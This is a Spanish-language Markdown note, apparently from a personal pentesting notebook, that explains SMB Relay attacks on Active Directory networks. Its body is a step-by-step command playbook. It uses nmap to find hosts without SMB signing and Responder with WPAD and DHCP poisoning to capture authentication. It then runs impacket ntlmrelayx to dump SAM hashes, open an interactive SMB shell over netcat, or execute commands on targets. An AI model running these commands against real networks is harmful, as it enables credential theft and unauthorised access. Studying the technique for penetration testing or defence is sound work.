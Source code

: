# SMB Relay 

Tags: #AD #Attacks #SMBRelay 

El **SMB Relay** (también conocido como **Ataque de relé SMB**) es una técnica utilizada en redes Windows cuando el SMB no esta firmado o no se encuentra forzado 'obligado' en el target, particularmente en entornos que emplean **Active Directory (AD)**, para tomar los **hashes de autenticación** de los usuarios y usarlos para autenticar conexiones en otros equipos, o incluso obtener acceso a servicios y recursos en la red sin necesidad de conocer las contraseñas en texto claro. Las credenciales de los usuarios deben ser de 'admin' en dispositivos con cualquier valor real. 

Este ataque se basa en **capturar** y **retransmitir** solicitudes de autenticación SMB a otros sistemas, lo que permite al atacante **suplantar** al usuario legítimo y autenticarse en el sistema de destino, sin necesidad de descifrar las credenciales.

```bash 
1. Verificar los hosts que no tienen firmado el SMB 'Message signing enabled but not required' 
❯ nmap --script=smb2-security-mode.nse -p445 IP/24 -Pn   

2. Modificar el archivo del 'Responder.conf', cambiar el SMB y HTTP a 'Off'
❯ nvim /etc/responder.Responder.conf

3. Ejecutar el responder y verificar que se aplicaron los cambios 
❯ responder -I eth0 -dwPv    
	# d --DHCP-DNS = Inyecta un servidor DNS en el DHCP reponder
	# w --wpad = Inicia el WPAD proxy server
	# P --ProxyAuth = Fuerza la autenticacion NTLM para el proxy.   
	# v = Verbosidad  

4. Ejecutar la herramienta para aplicar el SMB Relay. Si el ataque fue exitoso, la herramienta nos mostrara los hashes de la SAM   
❯ impacket-ntlmrelayx -tf targets.txt -smb2support
❯ ntlmrelayx.py -tf targets.txt -smb2support            # La version v0.9.19 es funcional 
	# tf = Target file  

❯ ntlmrelayx.py -tf targets.txt -smb2support -i  
	# i = Obtener una consola interactiva a traves del sistema de archivos en lugar de mostrar los hashes de la SAM 

Podemos usar 'Netcat' para ingresar a la carpeta compartida que nos muestra el comando anterior 
❯ nc 127.0.0.1 11000     # Conexion interactiva a le 'Shared' por el localhost y el puerto 11000
	❯ shares            # Muestra los directorios compartidos 
	❯ use C$            # Ingresamos al directorio 'C:'
	❯ ls                # Listamos lo que se encuentra en el directorio 

❯ ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
	# c = Ejecutar un comando  
```